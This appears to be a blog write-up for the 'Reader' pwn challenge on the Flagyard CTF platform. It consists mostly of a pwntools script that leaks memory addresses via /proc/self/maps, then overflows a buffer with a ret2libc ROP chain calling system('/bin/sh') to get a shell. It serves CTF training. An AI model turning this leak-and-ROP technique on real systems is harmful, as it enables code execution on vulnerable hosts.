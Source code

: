 ```yaml
---
title: "Flagyard - Reader"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
  - CTF
tags:
  - Hacking
  - Walkthrough
  - CTF
  - Flagyard
  - PWN
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Flagyard - Reader
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Portal:|[Flagyard](https://flagyard.com/)|
|Task:|[Reader](https://flagyard.com/labs/training-labs/5/challenges/ec874161-e57b-4403-8ace-de20790c4b1f)|
|Category:|PWN|

# 01. Description
Next challenge from Flagyard. I also spent some time on it, but I went in a different direction than before. Anyway, you’ll see for yourselves. Below is the source code showing how to get through it.
{: .text-justify}
## Solve in Python

```py
from pwn import *             
import re

context.update(arch='x86_64', os='linux') 
context.terminal = ['wt.exe','wsl.exe'] 

binary = context.binary = ELF("./reader", checksec=False)

if args.REMOTE:
    p = remote('nc 34.252.33.37 30476'.split()[1], 30476)
else:
    p = process(binary.path)    

program_name='/app/run'

p.sendlineafter(b"read:", b'/proc/self/maps')
SELF_MAPS=p.recvuntil(b'give me file to read: ')
base_pattern=re.search(r'^\s*([0-9a-f]+).*'+program_name,SELF_MAPS.decode(),re.MULTILINE)
libc_pattern=re.search(r'^\s*([0-9a-f]+).*/libc.so.6',SELF_MAPS.decode(),re.MULTILINE)

base_address=int("0x"+base_pattern.group(1),16)
libc_address=int("0x"+libc_pattern.group(1),16)
ret=base_address+0x101a

pop_rdi=libc_address+0x000000000010f75b
system=libc_address+0x58740
str_bin_sh=libc_address+0x1cb42f

length=120
payload=b"A"*length+p64(ret)+p64(pop_rdi)+p64(str_bin_sh)+p64(system)
p.sendline(payload)

p.interactive()
```
## Summary
This is tricky challenge. I like it.
{: .text-justify}


